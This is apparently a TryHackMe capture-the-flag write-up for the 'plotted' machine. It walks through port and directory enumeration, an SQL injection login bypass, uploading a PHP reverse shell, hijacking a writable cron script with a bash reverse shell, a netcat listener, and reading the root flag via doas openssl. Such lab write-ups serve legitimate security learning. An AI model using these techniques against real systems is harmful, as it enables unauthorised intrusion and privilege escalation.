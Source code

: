 ```yaml
---
title: TryHackMe - plotted
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, ssh, linpeas]
---
```


# nmap

# Command
```sh
nmap -sV -sC -v 10.10.113.22
```

# Result
```sh
Scanning 10.10.113.22 [1000 ports]
Discovered open port 445/tcp on 10.10.113.22
Discovered open port 80/tcp on 10.10.113.22
Discovered open port 22/tcp on 10.10.113.22
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
| 256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_ 256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

# 80-http

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



## gobuster 

## Command
```sh
gobuster dir -u http://10.10.113.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```sh
Starting gobuster in directory enumeration mode
===============================================================
/admin
(Status: 301) [Size: 312] [--> http://10.10.113.22/admin/]
/shadow
(Status: 200) [Size: 25]
/passwd
(Status: 200) [Size: 25]
```

## View_web
![[Pasted image 20241028211913.png]]

Nothing much

**visit directories from gobuster scan**


/admin
-------------------

![[Pasted image 20241028211930.png]]
id_rsa =`VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE`  
![[Pasted image 20241028211955.png]]

Decode the base64 using cyberchef = “Trust me it is not this easy..now get back to enumeration :D”  


/shadow
------------------------------------------
we get this text = `bm90IHRoaXMgZWFzeSA6RA==`  
First we identify it using Cipheridentifier  
Then use Cyberchef to decode it = “not this easy :D ”


/passwd
------------------------------------------
We get the same text = `bm90IHRoaXMgZWFzeSA6RA==`


# 445-tcp

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



## gobuster

```sh
gobuster dir -u http://10.10.113.22:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#Results
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/management
(Status: 301) [Size: 322] [--> http://10.10.113.22:445/management/]
```

##  View_web
`http://10.10.113.22:445/management/`
![[Pasted image 20241028212035.png]]

management/admin/login.php
---------------------------------------------------------------
Tried  sql injection and i worked with the first trial :)  

![[Pasted image 20241028212046.png]]
`It's actually “ admin' or '1'='1  `  

Now i searched for a place to upload my reverse shell script.  
Found in admin user settings allows one to upload a file and that's my way in.I hope so.  
Using the php reverse shell script i got a shell.  


Stabilising shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

$ ls -l
total 8
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 2021 tms_backup
-rw-rw---- 1 plot_admin plot_admin 33 Oct 28 2021 user.txt
```
found the user flag but lack the permisions to view it.  
Checking the /etc/crontab.  
I found a backup.sh file that is running after some time .  

At this point was stuck.
But the file is under our control thus i can edit it .  

Generated a bash reverse shell using an online reverse shell generator.  
Then preserved the contents of the origin backup.sh into another file.  
Created one of my own and gave it executable permissions.  
![[Pasted image 20241028212247.png]]

Encounted some issues but later on used my machine to create the file and give it executable permissions.  
Then used python server and wget to load it on to the machine.  

After this we run nc to listen on the port
```sh
nc -lvnp 5555
```
![[Pasted image 20241028212320.png]]


# privilege 2
I downloaded linpeas in my machine then used python3 -m http.server.  
Used wget to load the file into the attack machine.  
```sh
chmod +x linpeas
To run use = ./linpeas
```

![[Pasted image 20241028212338.png]]

```sh
cat /etc/doas.conf
doas openssl enc -in /root/root.txt

```
![[Pasted image 20241028212424.png]]
